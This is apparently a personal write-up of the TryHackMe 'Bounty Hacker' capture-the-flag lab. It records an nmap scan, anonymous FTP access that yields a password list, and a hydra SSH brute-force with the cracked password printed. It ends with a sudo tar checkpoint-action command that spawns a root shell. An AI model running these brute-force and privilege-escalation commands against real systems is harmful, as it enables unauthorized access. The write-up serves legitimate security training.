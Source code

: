 ### nmap
```
─(root💀kali)-[~/Desktop/THM]
└─# nmap -sT -sV -A 10.10.38.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-05 13:31 IST
Nmap scan report for 10.10.38.189
Host is up (0.15s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
<mark style="background: #ADCCFFA6;">21/tcp open  ftp     vsftpd 3.0.3</mark>
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.20.174
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
<mark style="background: #ADCCFFA6;">22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu</mark> 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
<mark style="background: #ADCCFFA6;">80/tcp open  http    Apache httpd 2.4.18 </mark>((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%), Linux 5.0 (89%), Linux 5.0 - 5.4 (89%), Linux 5.1 (89%), Ubiquiti AirOS 5.5.9 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   149.16 ms 10.18.0.1
2   149.25 ms 10.10.38.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.64 seconds
```

### FTP

Anonymous login allowe

┌──(root💀kali)-[~/Desktop/THM]
└─# cat task.txt   
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin




──(root💀kali)-[~/Desktop/THM]
└─# cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

### Shell

used the data found in ftp to brute force ssh since it was open

┌──(root💀kali)-[~/Desktop/THM]
└─# hydra -l lin -P locks.txt 10.10.38.189 ssh                                                                                                         

found a hit

[22][ssh] host: 10.10.38.189   login: lin   password: RedDr4gonSynd1cat3

### Priv ESC

──(root💀kali)-[~/Desktop/THM]
└─# ssh lin@10.10.38.189   


able to login into system as lin


lin@bountyhacker:~/Desktop$ sudo -l

User lin may run the following commands on bountyhacker:
    (root) /bin/tar



lin@bountyhacker:~/Desktop$ find / -type f -perm -u=s 2>/dev/null


>Here we are able to run tar as sudo so i went to gtfo bins to see how to escalate privileges with this



got this command from there and i got the root

lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

whoami
root


>and i got the root flag in /root
